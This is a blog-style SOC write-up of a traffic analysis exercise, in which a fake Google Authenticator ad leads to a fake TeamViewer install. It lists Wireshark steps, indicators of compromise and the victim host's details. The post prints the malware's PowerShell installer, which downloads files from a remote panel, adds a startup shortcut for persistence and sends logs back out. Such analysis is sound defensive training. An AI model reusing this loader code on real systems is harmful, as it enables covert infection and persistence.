 ```yaml
---
title: Traffic Analysis Exercise (Download from fake software site)
date: 2025-02-22 12:57:00 +3
categories: SOC
tags: [SOC, Network Traffic Analysis, Wireshark, TCP dump]
image: 
  path: /assets/img/SoftwareDownload.JPG
---
```


On January 22, 2025, an employee reported to Fictional Corp’s Security Operations Center (SOC) that a coworker downloaded a suspicious file. A Bing search for the Google Authenticator application was done and they clicked on the malicious ad which led them to a malicious website where the fake software was installed. After the malware was executed on the victim’s machine, from the network traffic analysis it was observed that it would download other files to the machine. The malware also exhibited persistence capabilities by adding itself to the startup programs folder ensuring that it runs every time the system boots up. Despite no observable malicious actions to date, its presence poses a significant potential threat to the organization.

## LAN Segment Details from the PCAP

* LAN segment range:  **10.1.17[.]0/24**   (**10.1.17[.]0** through **10.1.17[.]255**)
* Domain:  **bluemoontuesday[.]com**
* Active Directory (AD) domain controller:  **10.1.17[.]2** - **WIN-GSH54QLW48D**
* AD environment name:  **BLUEMOONTUESDAY**
* LAN segment gateway:  **10.1.17[.]1**
* LAN segment broadcast address:  **10.1.17[.]255**

## Network Traffic analysis porcess 
This section describes the steps taken in the network traffic analysis, my thought process, and how I reviewed the traffic to find the IoCs that were shared by the Threat Intelligence source, Palo Alto Networks. It most definitely made this process much easier, so let's dive in!

Considering that the incident involved visiting a malicious website, it was logical to start by filtering the packets for DNS traffic. I identified one of the subdomains used for the malicious ads, i.e., `google-authenticator.burleson-appliance.net/`.

![Alt Text](/assets/img/DFS1.JPG)

The next step involved filtering for HTTP requests in order to check for the fake software that was installed and other files that were pulled from the network when it was executed on the victim's machine. From the screenshot below, we can see `TeamViewer.exe`, `pas.ps1`, `29842.ps1`, and many others which were retrieved.

![Alt Text](/assets/img/DFS2.JPG)

In the screenshot below, it shows when I followed the TCP stream of the highlighted packets, and the more I scrolled down, I identified more files that were being pulled into the victim's machine. It's how I found `29842.ps1`.

![Alt Text](/assets/img/DFS3.JPG)

I also got to see the script that was used to install the fake TeamViewer application. This shows us the behavior of the fake software once it gets to the victim's machine. To summarize what it does, the script downloads and executes files (i.e., `TeamViewer.exe`, `Teamviewer_Resource_fr.dll`, `TV.dll`, and `pas.ps1` files) from a remote server; these are initial actions the fake software takes to establish itself in the victim's machine. It also created a shortcut in the startup folder so that it can run every time the system starts. This is a way in which attackers ensure persistence in the system. The script also sends logs to a remote server, which indicates that the fake software might be communicating with an external attacker, potentially sending sensitive data or receiving commands. This summary provides a behavior analysis of the fake software.

```javascript
function Download-Files($panelIP, $files, $filesDir){
    $web = New-Object System.Net.WebClient
    
    try {
        if(!(Test-Path $filesDir)) {
            New-Item $filesDir -ItemType Directory | Out-Null
        }
    } catch {
        return @{'status' = 'error'; 'message' = 'error while creating startup directory'}
    }
    
    foreach($file in $files) {
        try {
            $link = $file.link
            $fileName = $file.name
            $filePath = "$filesDir\$($file.name)"
            $web.DownloadFile($link, $filePath)
            if($fileName -eq $startupFile){
                $exePath = $startupFile
            }
        } catch {
            return @{'status' = 'error'; 'message' = "Error while download file. Filename: $($file.name). Link: $($link). Error: $($Error[0].exception.message)"}
        }
    }


    return @{'status' = 'success'}
}


function Create-Shortcut($filePath, $shortCutpath){
    $WshShell = New-Object -comObject WScript.Shell
    $Shortcut = $WshShell.CreateShortcut($shortCutpath)
    $Shortcut.TargetPath = $filePath
    $Shortcut.Save()
}


function Invoke-Startup($panelIP, $files, $filesDir, $startupFileName){
    $result = Download-Files $panelIP $files $filesDir
    if ($result.status -eq 'error'){
        return $result
    }


    #$startupFilePath = "$filesDir\$startupFileName"
    $startupFilePath = "C:\ProgramData\huo\TeamViewer.exe"
    $shortcutPath = "$([Environment]::GetFolderPath('Startup'))\TeamViewer.lnk"


    try {
        Create-Shortcut $startupFilePath $shortcutPath
    } catch {
        return @{'status' = 'error'; 'message' = "Error while creating shortcut."}
    }


    return @{'status' = 'success'; 'message' = 'startup shortcut created'}
}


function Send-Log($result){
    $log = "?k=$result"
    $uploadUrl = $url + $log
    $web = New-Object System.Net.WebClient
    $web.DownloadString($uploadUrl)
}


function ConvertTo-StringData($hashTable){
        foreach ($item in $hashTable) {
            foreach ($entry in $item.GetEnumerator()) {
                "{0} = {1}; " -f $entry.Key, $entry.Value
            }
        }
}


$filesDownloadLink = $ip + 'api/file/get-file/'
$filesDir = 'C:\ProgramData\huo'
$files = @(
    @{'name' = 'TeamViewer.exe'; 'link' = $filesDownloadLink + 'TeamViewer'},
    @{'name' = 'Teamviewer_Resource_fr.dll'; 'link' = $filesDownloadLink + 'Teamviewer_Resource_fr'},
    @{'name' = 'TV.dll'; 'link' = $filesDownloadLink + 'TV'}
    @{'name' = 'pas.ps1'; 'link' = $filesDownloadLink + 'pas.ps1'}
)
$startupFile = 'TeamViewer.exe'


$result = Invoke-Startup $panelIP $files $filesDir $startupFile
$result = ConvertTo-StringData($result)
Send-Log($result)p, li { white-space: pre-wrap; }hr { height: 1px; border-width: 0; }li.unchecked::marker { content: "\2610"; }li.checked::marker { content: "\2612"; }
```

I also took note of the server that supported the downloads: `5.252.153.241`.

![Alt Text](/assets/img/DFS4.JPG)

The following screenshots show an alternative method of finding more files that were retrieved from the malicious server. From the previous step, we already identified the IP address of the server hosting the malicious ad; hence, filtering the packets by specifying its IP address when filtering for HTTP requests can be useful in narrowing the traffic down to find much more valuable traffic.

![Alt Text](/assets/img/DFS5.JPG)

![Alt Text](/assets/img/DFS6.JPG)

## Questions 

**What is the IP address of the infected Windows client?** `10.1.17.215` 
At the start, when we filtered for DNS traffic, the IP that visited one of the malicious ad's subdomains is the infected Windows client.

![Alt Text](/assets/img/DFS7.JPG)

**What is the mac address of the infected Windows client?** `Intel_26:4a:74 (00:d0:b7:26:4a:74)`
This information was obtained from the very same packet from the previous question. The screenshot below shows its details where I got the MAC address.

![Alt Text](/assets/img/DFS8.JPG)

**What is the host name of the infected Windows client?** `DESKTOP-L8C5GSJ`
Since I already knew the IP address of the affected machine, I used it to filter the packets to display NBNS packets associated with the infected Windows client.

![Alt Text](/assets/img/DFS9.JPG)

![Alt Text](/assets/img/DFS10.JPG)

**What is the user account name from the infected Windows client?** `shutchenson`
I searched for Kerberos authentication, which is used by AD DC, to see if I could find packets that would reveal the user account name. I selected the first packet and viewed its details and got `shutchenson`.

![Alt Text](/assets/img/DFS11.JPG)

**What is the likely domain name for the fake Google Authenticator page?**
From a previous DNS filtered search, I found a subdomain which is also listed as one of the main website's subdomains that could likely be the Google Authenticator page.

![Alt Text](/assets/img/DFS12.JPG)



